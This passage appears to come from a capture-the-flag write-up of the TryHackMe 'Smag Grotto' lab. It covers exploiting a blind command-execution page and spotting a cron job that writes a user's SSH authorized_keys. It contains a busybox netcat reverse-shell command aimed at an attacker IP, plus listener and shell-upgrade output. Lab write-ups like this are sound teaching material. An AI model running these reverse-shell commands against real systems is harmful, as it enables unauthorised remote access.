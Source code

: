 I tried the `login.php` with the previous found credentials. The login was successful and a command execution page appeard:

![Command Execution](/assets/img/tryhackme/Smaggrotto/thm_smaggrotto_3.jpg){:}

I tried several commands, but the result is not displayed anywhere. This seems to be a kind of blind execution. To prove this I tried a `http` request to a webserver on the attacker machine:

![PCAP Analysis](/assets/img/tryhackme/Smaggrotto/thm_smaggrotto_4.jpg){:}

With this in mind I was able to receive a reverse shell by using `busybox`:
```bash
busybox nc [attacker ip] 9001 -e sh
```
This looks good:
```bash
$ nc -lnvp 9001                
listening on [any] 9001 ...
connect to [10.21.63.26] from (UNKNOWN) [10.10.35.143] 46918
whoami
	www-data
which python3
	/usr/bin/python3
python3 -c 'import pty;pty.spawn("/bin/bash")'	
www-data@smag:/var/www/development.smag.thm$ ls /home
  ls /home
  jake
www-data@smag:/var/www/development.smag.thm$
```
Let's escalate to jake.

## Privilege Escalation jake
Always have a look in the `/etc/crontab`:
```bash
www-data@smag:/home/jake$ cat /etc/crontab      

[... removed for readability ...]

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    /bin/cat /opt/.backups/jake_id_rsa.pub.backup > /home/jake/.ssh/authorized_keys
```